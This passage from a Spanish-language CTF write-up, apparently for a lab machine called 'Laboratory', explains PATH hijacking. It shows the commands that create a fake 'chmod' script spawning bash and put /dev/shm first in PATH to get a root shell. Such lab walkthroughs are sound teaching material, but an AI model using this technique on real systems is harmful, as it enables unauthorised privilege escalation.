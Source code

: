 Acá está más claro (creo yo :P), intenta cambiar los permisos, pero no permite la acción... Pero hay algo curioso, está llamando a `docker` por su ruta absoluta (`/usr/bin/docker`) y al archivo `docker.sock` también por su ruta completa (`/var/run/docker.sock`), pero `chmod` está siendo llamado en general...

Lo que pasa ahí es que cuando ejecutamos `chmod`, el sistema va a buscar el binario en todas las rutas del **PATH** (`echo $PATH`), ira recorriendo cada directorio y donde primero lo encuentre, será ese el que ejecute... Sabiendo esto, podemos aprovecharnos para hacer un `PATH Hijacking`, en el que crearemos un archivo llamado `chmod`, en su contenido le indicamos que nos genere una `Shell`, modificaremos el **PATH** para que si o si encuentre primero nuestro binario y lo ejecute. Consiguiendo así una Shell como el usuario administrador del sistema (`root`). Prendámosle fuego:

* Más info sobre `PATH Hijacking`. - [hackingarticles.in/linux-privesc-using-path-variable](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/).

...

#### ¬ Creamos el archivo `chmod`

```bash
dexter@laboratory:/dev/shm$ echo '#!/bin/bash' > chmod
dexter@laboratory:/dev/shm$ which bash
/usr/bin/bash
#Con esta linea obtendremos una `bash`.
dexter@laboratory:/dev/shm$ echo '/usr/bin/bash' >> chmod 

#Otorgamos permisos de ejecución.
dexter@laboratory:/dev/shm$ chmod +x chmod 

#Validamos.
dexter@laboratory:/dev/shm$ cat chmod 
#!/bin/bash
/usr/bin/bash
dexter@laboratory:/dev/shm$ 
```

Si lo probamos con `dexter` pasaría esto:

```bash
dexter@laboratory:/dev/shm$ /bin/sh
$ ./chmod
dexter@laboratory:/dev/shm$ 
```

#### ¬ Modificamos la variable `PATH`.

```bash
dexter@laboratory:/dev/shm$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/snap/bin

#La guardamos en otra variable por si algo.
dexter@laboratory:/dev/shm$ old_path=$PATH

#Le indicamos donde esta nuestro binario, esa ruta quedara de primero, en mi caso `/dev/shm`.
dexter@laboratory:/dev/shm$ export PATH=/dev/shm:$PATH

#La nueva variable `PATH`.
dexter@laboratory:/dev/shm$ echo $PATH
/dev/shm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/snap/bin
dexter@laboratory:/dev/shm$
```

